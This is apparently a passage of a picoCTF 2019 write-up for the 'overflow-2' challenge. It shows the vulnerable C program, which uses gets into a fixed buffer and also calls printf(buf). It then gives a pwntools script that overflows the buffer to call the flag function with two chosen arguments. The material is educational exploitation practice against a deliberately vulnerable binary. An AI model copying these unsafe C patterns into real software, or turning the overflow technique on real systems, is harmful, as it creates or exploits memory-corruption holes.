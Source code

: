 ```c
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`main` calls `vuln` that uses `gets`, so we know it's vulnerable to a buffer overflo, then we see the flag function has a condition that if the `arg1 == 0xDEADBEEF` and `arg2 == 0xC0DED00D` it prints the flag, so we can overflow call the flag function, and the return address and the two arguments:

```python
from pwn import *
from getpass import getpass

user = getpass("Username:")
passwd = getpass("Password:")
host = "2019shell1.picoctf.com"

s = ssh(user=user,password=passwd,host=host)
p = s.run("cd /problems/overflow-2_6_97cea5256ff7afcd9c8ede43d264f46e && ./vuln")

payload = b"a"*188
payload += p32(0x080485e6)
payload += b"aaaa"
payload += p32(0xDEADBEEF)
payload += p32(0xC0DED00D)

p.recvuntil(":")
p.sendline(payload)
p.interactive()
```

